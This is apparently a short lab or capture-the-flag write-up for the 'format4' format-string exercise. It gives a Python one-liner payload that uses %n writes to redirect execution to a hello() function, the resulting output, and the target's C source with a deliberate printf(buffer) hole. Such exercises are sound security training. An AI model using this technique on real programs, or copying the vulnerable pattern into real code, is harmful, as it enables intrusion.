 \begin{lstlisting}[language=bash]
python -c "print '\x01\x01\x01\x01\x24\x97\x04\x08\x01\x01\x01\x01\x25\x97\x04
  \x08\x01\x01\x01\x01\x26\x97\x04\x08\x01\x01\x01\x01\x27\x97\x04\x08'
  + '%x.'*3 + '%126u%n%208u%n%128u%n%260u%n'" | ./format4
$%&'200.b7fd8420.bffffb14....
code execution redirected! you win  
\end{lstlisting}

\subsection*{Source code}

\begin{lstlisting}[language=c]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
\end{lstlisting}
